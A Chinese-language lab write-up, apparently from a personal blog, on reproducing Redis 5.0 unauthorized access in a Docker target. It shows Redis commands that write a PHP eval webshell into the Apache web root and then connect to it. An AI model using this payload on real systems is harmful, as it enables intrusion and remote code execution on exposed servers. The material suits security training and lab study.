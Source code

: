 # 2. 漏洞复现  
---
环境使用 docker 进行启动，下载地址：[Vulnerability-exploitation/redis\_unauthorized\_access at main · yiscook/Vulnerability-exploitation · GitHub](https://github.com/yiscook/Vulnerability-exploitation/tree/main/redis_unauthorized_access)  
需要下载三个文件：`docker-compose.yml`、`dockerfile`、`start_services.sh`
## 2.1 环境介绍  
在 Redis 6.0 版本，配置文件中引入了 `enable-protected-configs`，这个参数用于保护 Redis 的配置文件不被非授权用户修改。在此之前，Redis 的配置文件是可以被任何用户修改的，这可能导致安全风险，特别是在未授权访问的情况下。通过设置 `enable-protected-configs` 参数为 `yes`，可以确保只有授权的用户能够修改 Redis 的配置文件。所以选择 Redis 5.0 进行练习。  
- 攻击环境：kali  
- 靶场环境：docker（安装在 kali）  
	- Redis 5.0 的 docker 官方镜像（debian 11）
	- apache 2
	- php
	- cron
	- ssh

# 3. Redis 未授权访问漏洞利用  
---
> [!tip]
> docker 镜像中所开放的端口均没有与主机 kali 进行映射，所以全部内容均需要在 kali 中操作  
> 首先获取 docker 靶机的 ip 地址：`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <CONTAINER-ID> `

可以先试用 nmap 扫描一下靶机都开放了哪些端口。  
![nmap扫描](https://image.yiscook.top/blog-image/202404152327327.png)
## 3.1 写入 webshell  
已知靶场 IP 是：`172.18.0.2`，并且开放了 6379 和 80 端口。访问 80 端口，内容如下：
![暴露80端口](https://image.yiscook.top/blog-image/202404152214824.png)
所以在攻击端尝试使用 Redis 客户端 AnotherRedisDesktopManager 进行连接。  
![redis客户端连接](https://image.yiscook.top/blog-image/202404152212055.png)    
可以成功连接，并且在 80 端口暴露的页面获取到了靶机的 apache server 路径：`/var/www/html`  
所以尝试使用 AnotherRedisDesktopManager 的控制台写入 webshell。  
payload 如下：SAVE 也可替换为 BGSAVE
```Redis
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```
![webshell-payload](https://image.yiscook.top/blog-image/202404152253119.png)
尝试访问 172.18.0.2/shell.php，看看是否写入成功。  
![访问shell.php](https://image.yiscook.top/blog-image/202404152254638.png)  
已经成功写入，尝试使用蚁剑进行连接。  
![蚁剑连接webshell](https://image.yiscook.top/blog-image/202404152256440.png)  
可以成功连接！
